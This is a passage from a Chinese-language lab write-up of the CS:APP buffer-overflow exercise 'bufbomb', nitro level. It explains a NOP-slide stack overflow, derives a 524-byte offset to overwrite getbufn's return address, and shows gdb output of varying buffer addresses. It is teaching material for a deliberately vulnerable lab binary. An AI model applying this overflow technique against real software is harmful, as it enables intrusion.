 这里构造攻击指令nitro.s如下：

![](22.png)

对其进行编译，然后反汇编得到机器码：

![](23.png)

可是我们还不知道返回地址应该用什么来填充。字符串首地址是变化的，虽然可以通过%esp间接求出，但在程序跳转到我们的代码之前，我们无法得知%esp的值究竟是多少（原来可以用gdb调试出来，但现在不行了）。幸好getbufn给的栈空间很大，我们可以利用nop slide技术，先让程序返回到一个我们大致猜测的地址，在这个地址及其附近的一大片区域里我们用nop指令(机器码为0x90)填充，CPU执行nop指令时除了程序计数器PC自加，别的什么也不做。把我们的代码放在这片区域的高位地址处，程序一路执行nop,就像滑行一样，一路滑到我们的代码才真正开始执行。我们可以利用gdb调试找到这个字符串开始的大致区域。

查看getbufn()汇编代码，有：

![](24.png)

得知写入字符串的首地址为**-0x208(%ebp)**，而返回地址位于**0x4(%ebp)**，因此我们需填充**0x4 - (-0x208) = 0x20c = 524**个字节的字符，再写4个字节覆盖getbufn()的返回地址。

使用gdb调试发现5次getbufn循环里面，缓冲区首地址情况如下：

```bash
➜ ~/buflab-handout git:(master) ✗ ➤ gdb bufbomb
……
Reading symbols from bufbomb...(no debugging symbols found)...done.

(gdb) b *0x080490be
Breakpoint 1 at 0x80490be

(gdb) r -n -u U201315075
Starting program: /home/zhwhong/buflab-handout/bufbomb -n -u U201315075
Userid: U201315075
Cookie: 0x2d8f0526
Breakpoint 1, 0x080490be in getbufn ()

(gdb) p /x $ebp-0x208
$1 = 0x55683258
(gdb) c
Breakpoint 1, 0x080490be in getbufn ()

(gdb) p /x $ebp-0x208
$2 = 0x556832c8
(gdb) c
Breakpoint 1, 0x080490be in getbufn ()

(gdb) p /x $ebp-0x208
$3 = 0x556831e8
(gdb) c
Breakpoint 1, 0x080490be in getbufn ()

(gdb) p /x $ebp-0x208
$4 = 0x556831d8
(gdb) c
Breakpoint 1, 0x080490be in getbufn ()

(gdb) p /x $ebp-0x208
$5 = 0x55683258
(gdb) c
[Inferior 1 (process 9333) exited normally]
```
